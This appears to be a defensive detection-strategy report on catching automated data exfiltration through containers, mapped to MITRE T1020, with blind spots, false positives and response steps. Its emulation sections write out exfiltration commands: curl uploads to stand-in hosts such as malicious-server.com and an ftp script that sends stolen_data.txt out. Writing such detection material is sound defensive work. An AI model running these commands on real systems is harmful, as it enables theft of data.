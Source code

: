 # Alerting & Detection Strategy (ADS) Report

## Goal
The goal of this detection strategy is to identify adversarial attempts to bypass security monitoring using containers for automated data exfiltration.

## Categorization
- **MITRE ATT&CK Mapping:** T1020 - Automated Exfiltration
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows, Network  
  [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1020)

## Strategy Abstract
This detection strategy leverages multiple data sources including network traffic logs, container runtime logs, and file system monitoring to identify patterns indicative of automated exfiltration through containers. Key indicators include unusual outbound traffic from known container IP ranges, large volumes of encrypted data being transferred, and changes in container configurations or behavior that suggest exploitation.

## Technical Context
Adversaries may use containers as a stealthy medium for data exfiltration by encapsulating their payloads within legitimate-looking containerized applications. They often exploit the dynamic nature of container orchestration environments to bypass traditional security controls. Real-world execution involves configuring containers with network access and using techniques like HTTPS tunneling or encrypted FTP to securely transfer stolen data.

### Adversary Emulation Details
- **Sample Commands:**
  - Setting up a malicious Docker container:
    ```bash
    docker run --name exfiltration_container -d my_malicious_image
    ```
  - Initiating an automated script within the container to start data transfer:
    ```bash
    curl -u username:password ftp://malicious-server.com/path/to/steal/data.txt
    ```

## Blind Spots and Assumptions
- **Assumption:** All containers are managed by a centralized orchestrator (e.g., Kubernetes, Docker Swarm), allowing for comprehensive monitoring.
- **Blind Spot:** Detection might not be effective against highly sophisticated adversaries using custom container runtimes or unmonitored sidecar containers.
- **Gaps:** Limited visibility into encrypted payloads unless decryption keys or additional network inspection capabilities are available.

## False Positives
Potential false positives include:
- Legitimate use of FTP for backup services where data volumes align with typical business activity.
- Authorized outbound connections from development environments using containerized applications that might generate large, encrypted datasets as part of normal operations.
  
## Priority
**High**: Automated exfiltration poses a significant threat due to its ability to stealthily move sensitive information out of the network without detection. The impact can be severe if critical data is compromised.

## Validation (Adversary Emulation)
### IcedID Botnet HTTP PUT

1. **Environment Setup:**
   - Deploy a containerized web server using Docker.
   
2. **Simulate Exfiltration:**
   - Run the following command within the container to initiate a data transfer:
     ```bash
     curl --upload-file stolen_data.txt http://external-server.com/upload
     ```

3. **Monitor and Validate Alerts:**
   - Ensure network monitoring tools detect unusual HTTP PUT requests with large payloads from known container IPs.

### Exfiltration via Encrypted FTP

1. **Environment Setup:**
   - Set up an FTP server accessible over the network.
   
2. **Simulate Exfiltration:**
   - Execute within a container:
     ```bash
     ftp -inv $FTP_SERVER << EOF
     user username password
     put stolen_data.txt
     quit
     EOF
     ```

3. **Monitor and Validate Alerts:**
   - Check for FTP traffic anomalies, such as large file transfers or connections to suspicious IP addresses.

## Response
Upon detecting an alert:
- Immediately isolate the affected containers and network segments.
- Perform a detailed forensic analysis of the container logs and network traffic to confirm malicious activity.
- Update security policies to restrict unauthorized FTP access and outbound HTTP PUT requests from containers.
- Conduct a thorough review of all running containers for signs of compromise.

## Additional Resources
Additional references and context are currently unavailable. For further guidance, consider consulting comprehensive security frameworks and threat intelligence sources related to container environments and data exfiltration techniques.